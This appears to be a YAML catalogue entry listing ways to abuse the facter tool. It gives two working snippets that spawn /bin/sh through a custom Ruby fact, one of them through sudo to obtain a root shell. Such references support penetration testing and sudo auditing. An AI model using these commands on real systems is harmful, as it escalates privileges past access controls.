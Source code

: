 ```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp -d)
        echo 'exec("/bin/sh")' > $TF/x.rb
        FACTERLIB=$TF facter
  sudo:
    - code: |
        TF=$(mktemp -d)
        echo 'exec("/bin/sh")' > $TF/x.rb
        sudo facter --custom-dir=$TF x
---
```

